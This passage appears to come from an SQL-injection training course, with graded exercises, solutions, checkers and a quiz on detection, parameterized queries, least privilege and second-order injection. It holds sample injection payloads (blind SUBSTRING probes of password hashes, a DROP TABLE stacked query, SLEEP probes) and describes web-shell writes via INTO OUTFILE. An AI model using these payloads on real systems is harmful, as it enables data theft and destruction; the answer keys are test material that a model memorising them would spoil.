    (4,'orders_app','SELECT COUNT(*) FROM customers WHERE email = ''ann@example.com'''),
    (5,'orders_app','SELECT COUNT(*) FROM customers WHERE email = ''x'' OR SUBSTRING((SELECT password_hash FROM app_users LIMIT 1),1,1) = ''a'''),
    (6,'orders_app','SELECT order_id, status FROM orders WHERE order_id = 13'),
    (7,'orders_app','SELECT COUNT(*) FROM customers WHERE email = ''bo@example.com'''),
    (8,'orders_app','SELECT TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA = DATABASE()');
concepts: [sql-injection, defence-in-depth]
prompt: |
  `app_query_log(log_id, account, statement_text)` holds statements the application sent. Normal traffic uses only
  a few statement *shapes*. Using `STATEMENT_DIGEST_TEXT()`, find the statement shapes that occur **only once**
  — the rare shapes a security analyst would review first. Return `digest_text` and `occurrences`, ordered by
  `digest_text`.
hints:
  - "STATEMENT_DIGEST_TEXT(statement_text) replaces literals with ? so all order lookups share one shape."
  - "GROUP BY the digest text and keep groups with COUNT(*) = 1."
solution: |
  SELECT STATEMENT_DIGEST_TEXT(statement_text) AS digest_text, COUNT(*) AS occurrences
  FROM app_query_log
  GROUP BY digest_text
  HAVING COUNT(*) = 1
  ORDER BY digest_text;
orderMatters: true
explanation: |
  The normal order lookups and e-mail checks collapse into two shapes with several occurrences each. The `UNION`
  extraction, the blind `SUBSTRING` probe and the `information_schema` reconnaissance each produce a shape the
  application never generates. `performance_schema.events_statements_summary_by_digest` does this grouping on a
  live server; alerting on *new digests for the application account* is a cheap, effective injection detector.
```

```exercise
id: ex3
title: A safe, whitelisted sort
difficulty: hard
kind: dml
concepts: [dynamic-identifiers, prepared-statements]
prompt: |
  Create a procedure **`customers_page(IN p_sort VARCHAR(20), IN p_limit INT)`** that returns `customer_id`,
  `last_name`, `city` from `customers`, sorted by the user's choice and limited to `p_limit` rows:

  - `'name'` → `last_name, customer_id`; `'city'` → `city, customer_id`; `'newest'` → `customer_id DESC`;
  - any other value must raise `SQLSTATE '45000'` with the message `'Unsupported sort option'`;
  - the limit must be passed with a `?` placeholder.

  Then create `page_capture(customer_id INT, last_name VARCHAR(50), city VARCHAR(60))` and fill it with the
  **first 3 customers by city** using `INSERT … SELECT … ORDER BY city, customer_id LIMIT 3` (procedures' result
  sets cannot be inserted directly).

  The checker reads `page_capture` and confirms the procedure exists.
hints:
  - "Map p_sort to a fixed ORDER BY fragment with CASE; SIGNAL when the CASE yields NULL."
  - "LIMIT accepts a placeholder in prepared statements: '… LIMIT ?' with EXECUTE s USING @lim."
solution: |
  CREATE PROCEDURE customers_page(IN p_sort VARCHAR(20), IN p_limit INT)
  BEGIN
    DECLARE v_order VARCHAR(60);
    SET v_order = CASE p_sort
                    WHEN 'name'   THEN '`last_name`, `customer_id`'
                    WHEN 'city'   THEN '`city`, `customer_id`'
                    WHEN 'newest' THEN '`customer_id` DESC'
                  END;
    IF v_order IS NULL THEN
      SIGNAL SQLSTATE '45000' SET MESSAGE_TEXT = 'Unsupported sort option';
    END IF;
    SET @sql = CONCAT('SELECT customer_id, last_name, city FROM customers ORDER BY ', v_order, ' LIMIT ?');
    SET @lim = p_limit;
    PREPARE s FROM @sql;
    EXECUTE s USING @lim;
    DEALLOCATE PREPARE s;
  END;
  CREATE TABLE page_capture (customer_id INT, last_name VARCHAR(50), city VARCHAR(60));
  INSERT INTO page_capture SELECT customer_id, last_name, city FROM customers ORDER BY city, customer_id LIMIT 3;
check: |
  SELECT pc.customer_id, pc.last_name, pc.city,
         (SELECT COUNT(*) FROM information_schema.ROUTINES
           WHERE ROUTINE_SCHEMA = DATABASE() AND ROUTINE_NAME = 'customers_page') AS proc_exists
  FROM page_capture pc
  ORDER BY pc.customer_id;
explanation: |
  The SQL text contains only fragments written by the developer; the user's string is compared with three
  constants and never concatenated. `LIMIT ?` shows that placeholders work for values even in clauses people
  forget about. A `CASE` without `ELSE` yields NULL for unknown input, which the `SIGNAL` turns into an explicit
  error instead of a default sort that would hide client bugs.
```

```exercise
id: ex4
title: Neutralize the second-order attack
difficulty: hard
kind: dml
setup: |
  CREATE TABLE app_users (user_id INT PRIMARY KEY AUTO_INCREMENT, username VARCHAR(40) NOT NULL UNIQUE,
    password_hash CHAR(64) NOT NULL, is_admin BOOLEAN NOT NULL DEFAULT FALSE);
  INSERT INTO app_users (username, password_hash, is_admin) VALUES
    ('admin', SHA2('correct horse battery', 256), TRUE), ('maria', SHA2('maria-pass-2024', 256), FALSE),
    ('admin'' -- ', SHA2('whatever', 256), FALSE);
concepts: [second-order-injection, prepared-statements]
prompt: |
  The setup created `app_users` including a malicious user 3 named `admin' -- `. Write a procedure
  **`change_password_safe(IN p_user_id INT, IN p_new VARCHAR(200))`** that sets the password hash of **that user
  only** to `SHA2(p_new, 256)` — identify the row by `user_id` and use no string concatenation. Then call it as
  user 3 with the new password `'attacker-chosen'`.

  The checker shows, for each user, whether the hash equals `SHA2('attacker-chosen', 256)`.
hints:
  - "There is no reason to look up the user name at all: WHERE user_id = p_user_id."
  - "Static SQL inside a procedure is already parameterized: UPDATE app_users SET password_hash = SHA2(p_new, 256) WHERE user_id = p_user_id;"
solution: |
  CREATE PROCEDURE change_password_safe(IN p_user_id INT, IN p_new VARCHAR(200))
  BEGIN
    UPDATE app_users SET password_hash = SHA2(p_new, 256) WHERE user_id = p_user_id;
  END;
  CALL change_password_safe(3, 'attacker-chosen');
check: |
  SELECT user_id, username, password_hash = SHA2('attacker-chosen', 256) AS has_new_password
  FROM app_users ORDER BY user_id;
explanation: |
  Two improvements: the statement is static (procedure parameters inside static SQL are bound like placeholders),
  and the row is identified by its immutable key rather than by a user-controlled name. Only user 3's hash changes;
  the admin is untouched. If dynamic SQL were genuinely needed, `EXECUTE … USING` with the stored name bound to a
  `?` would also be safe.
```

```exercise
id: ex5
title: Review an injection incident
difficulty: challenge
kind: open
concepts: [sql-injection, defence-in-depth, least-privilege, blind-injection]
prompt: |
  A penetration test finds a boolean-based blind injection in the "check coupon code" endpoint of an e-commerce
  application. The endpoint returns only *valid* / *invalid*. The application connects to MySQL 8.4 as
  `shop_app`, which has `ALL PRIVILEGES ON *.*` "because the ORM needs to run migrations at start-up".

  1. Explain how an attacker would exploit the endpoint and estimate the effort to extract a 64-character hex
     password hash.
  2. What could the attacker reach with this account? What would they reach with a least-privilege account?
  3. Give the code fix and at least four defence-in-depth measures, ordered by priority.
solution: |
  **1. Exploitation.** The attacker appends a condition to the coupon code (e.g. `X' OR SUBSTRING((SELECT …),1,1) > 'm' -- `)
  and reads the valid/invalid answer as one bit. With binary search over 16 hex digits, each character needs
  4 requests, so a 64-character hash needs ~256 requests; with a lookup of `information_schema` first to find
  tables and columns, a full dump of a table of 1,000 such secrets is ~250,000 requests — hours with a tool such as
  sqlmap, faster with parallelism. Time-based variants (`IF(…, SLEEP(1), 0)`) work even if the response were identical.

  **2. Blast radius.** With `ALL ON *.*`: every schema on the server, the `mysql` schema (account hashes — and
  `mysql_native_password` hashes, if any remain, are password-equivalent for that protocol), `FILE` privilege
  (`SELECT … INTO OUTFILE` to write files such as web shells where `secure_file_priv` allows, `LOAD_FILE()` to read
  server files), `CREATE USER`/`GRANT` for persistence, DDL to destroy data, `SHUTDOWN`. With least privilege
  (DML on the shop schema only): shop data that the application can read anyway — still serious (customer PII),
  but no other schemas, no account hashes, no files, no persistence, no DDL.

  **3. Fix and defence in depth.**
  - *Code fix (immediate):* bind the coupon code as a parameter (`WHERE code = %s` / `?`), type and length-limit
    it; audit the codebase for other string-built SQL (Semgrep/CodeQL), including ORM raw queries.
  - *Least privilege (immediate):* split the account — `shop_app` gets `SELECT, INSERT, UPDATE, DELETE` on `shop.*`;
    migrations run from CI/CD with a separate `shop_migrator` account, never at application start-up.
  - *Secrets hygiene:* rotate `shop_app`'s password and any credentials/tokens stored in reachable tables; assume
    the hashes were taken; ensure user password hashes use a slow salted algorithm.
  - *Error handling and rate limiting:* generic error messages, per-client rate limits on the endpoint,
    `max_execution_time` for the app account to cap time-based probes.
  - *Detection:* alert on new statement digests and SQL errors from `shop_app`, queries against
    `information_schema`, and `SLEEP`/`BENCHMARK` usage (performance_schema digests, audit log).
  - *Verification:* add the injection case to automated DAST in CI; re-test.
```

## Knowledge Assessment

```quiz
- id: q1
  question: "Why does a parameterized query defeat SQL injection, formally?"
  options:
    - "Because the driver removes dangerous characters from the input"
    - "Because the statement's syntax tree is fixed before values are bound, and a bound value can only be a literal"
    - "Because MySQL rejects input containing quotes"
    - "Because prepared statements run with fewer privileges"
  answer: 1
  explanation: "Parameterization separates code from data structurally. Nothing is removed (the value `admin' -- ` is bound verbatim), quotes are perfectly legal input, and prepared statements run with the same privileges as any other statement."
  concepts: [prepared-statements, sql-injection]
- id: q2
  question: "An endpoint builds `\"… WHERE order_id = \" + input` and the team adds a function that doubles every single quote in the input. Is the endpoint safe?"
  options:
    - "Yes — without quotes the attacker cannot break out"
    - "No — in an unquoted numeric context the attacker needs no quote (e.g. `0 UNION SELECT …`)"
    - "Yes, if NO_BACKSLASH_ESCAPES is enabled"
    - "No, because MySQL does not support doubled quotes"
  answer: 1
  explanation: "The injection in Example 1 contains no quote that matters. Escaping only protects quoted string contexts (and only if never forgotten). Doubled quotes are valid MySQL; sql_mode does not change the numeric case."
  concepts: [sql-injection]
- id: q3
  question: "Which techniques let an attacker extract data from an endpoint that never displays query results? (Select all that apply.)"
  type: multi
  options:
    - "Boolean-based blind injection"
    - "Time-based blind injection with SLEEP()"
    - "UNION-based injection"
    - "Inferring data from differences in error vs no-error responses"
  answer: [0, 1, 3]
  explanation: "Blind techniques infer one bit per request from any observable difference: a yes/no answer, latency, or error behaviour. UNION-based injection needs the query's rows to be shown to the attacker, so it does not apply to an endpoint that displays nothing."
  concepts: [blind-injection]
- id: q4
  question: "A user registers with the name `admin' -- ` through a parameterized INSERT. Later, a batch job concatenates stored user names into an UPDATE. What is this called and who is affected?"
  options:
    - "Stacked injection; the batch job's own table only"
    - "Second-order injection; any row the rewritten statement matches — here the real admin"
    - "No vulnerability, since the INSERT was parameterized"
    - "Blind injection; nobody, because the job shows no output"
  answer: 1
  explanation: "Stored data was safely inserted but later treated as code. The rewritten WHERE clause matched the admin. Parameterizing the first statement does not protect later statements; output visibility is irrelevant for a write."
  concepts: [second-order-injection]
- id: q5
  question: "A report lets users choose the sort column. What is the correct implementation?"
  options:
    - "PREPARE '… ORDER BY ?' and bind the column name"
    - "Concatenate the column name after wrapping it in backticks"
    - "Map the user's choice through an allow-list of known columns, then build the SQL from the mapped constant"
    - "Escape the column name with QUOTE()"
  answer: 2
  explanation: "Placeholders bind values, not identifiers — ORDER BY ? sorts by a constant. Backticks alone can be broken out of (a backtick in the input) and allow any column; QUOTE() produces a string literal, not an identifier. An allow-list means the SQL text contains only developer-written fragments."
  concepts: [dynamic-identifiers]
- id: q6
  question: "Why do stacked-query payloads such as `'; DROP TABLE orders; -- ` usually fail against MySQL applications, and why is that not a defence?"
  options:
    - "MySQL forbids DROP TABLE; therefore injection cannot cause damage"
    - "Prepared statements and most drivers' default (multi-statements off) accept one statement per call, but single-statement attacks (UNION, tautologies, blind, UPDATE rewrites) remain"
    - "The semicolon is escaped automatically by MySQL"
    - "Comments are not supported after semicolons"
  answer: 1
  explanation: "The one-statement rule blocks only the stacking style. Every attack demonstrated in the lesson was a single statement. MySQL does allow DROP TABLE for accounts with the privilege, and it escapes nothing automatically."
  concepts: [sql-injection, defence-in-depth]
- id: q7
  question: "Which change reduces the impact of an injection that is not yet found?"
  options:
    - "Granting the application account ALL ON *.* so errors are fewer"
    - "Running the application with DML-only privileges on its own schema"
    - "Showing detailed SQL errors to users to aid debugging"
    - "Disabling prepared statements"
  answer: 1
  explanation: "Least privilege bounds the blast radius: no other schemas, no files, no account management, no DDL. Broad privileges and detailed errors help attackers; disabling prepared statements removes the primary defence."
  concepts: [least-privilege, defence-in-depth]
- id: q8
  question: "A parameterized search uses `WHERE email LIKE CONCAT('%', ?, '%')`. A user searches for `%`. What happens?"
  options:
    - "SQL injection — the user can run arbitrary SQL"
    - "An error, because % is not allowed in parameters"
    - "Every row matches, because % inside the bound value is still a LIKE wildcard; escape % and _ if literal matching is intended"
    - "No rows match"
  answer: 2
  explanation: "The value is bound safely (no injection) but LIKE interprets wildcards in the pattern regardless of how it was supplied. That can expose more rows than intended and forces scans; escape wildcards for literal search."
  concepts: [prepared-statements]
```
